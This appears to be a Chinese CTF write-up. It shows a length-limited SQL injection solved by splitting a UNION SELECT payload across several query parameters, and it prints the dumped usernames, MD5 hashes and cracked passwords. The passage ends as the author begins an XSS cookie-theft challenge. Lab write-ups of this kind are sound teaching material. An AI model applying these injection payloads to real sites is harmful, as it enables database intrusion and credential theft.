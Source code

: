 <br>

**Divide and rule**

首先点进去是个登陆页面，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0187a18ea3d03950dc.png)

然后去 search 那儿找东西  

发现那一堆查询参数是存在注入的,随便加个单引号就不返回值了。  

然后尝试联合查询发现还是不返回,后来想到这么多参数很可能是长度受了限制,然后就分开来,最后测试成功,如下:

```
firstname='union select/*&amp;lastname=*/1,2,3,4,5,6#&amp;position=&amp;country=123&amp;gender=
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01bceb421db5bed892.png)

但是有一个问题就是,长度限制后来测出来好像是15,这样子没办法查表名和列名之类的,因为 information_schema 太长了。  

后来脑洞了一下猜到表名是 users ,  

然后根据初始登录页面的name猜到字段名分别是 login 和 password



```
firstname='union select/*&amp;lastname=*/login/*&amp;position=*/,2,3,4,5,6 /*#&amp;country=*/from users#123&amp;gender=
firstname='union select/*&amp;lastname=*/password/*&amp;position=*/,2,3,4,5,6 /*#&amp;country=*/from users#123&amp;gender=
```

得到三个用户名和三个md5的密码值,MD5解密之后登陆就拿到flag了



```
#三个用户名
ruleradmin
patrick
raoul
#三个密码
04fc95a5debc7474a84fad9c50a1035d #smart1985
db6eab0550da4b056d1a33ba2e8ced66 #1badgurl
7ac89e3c1f1a71ee19374d7e8912714b #1badboy
```

[![](https://p5.ssl.qhimg.com/t01bb5ab35b6193197a.png)](https://p5.ssl.qhimg.com/t01bb5ab35b6193197a.png)

<br>

**Purple Posse Market**

进去之后研究半天,发现有一个contact页面可以提交一些东西,然后其他好像也没有太多用,题目描述让拿到管理员的IBAN账户。那多半是xss拿到cookie登陆后台了,然后在评论这里尝试提交,发现根本没有过滤,下面代码直接就能返回。
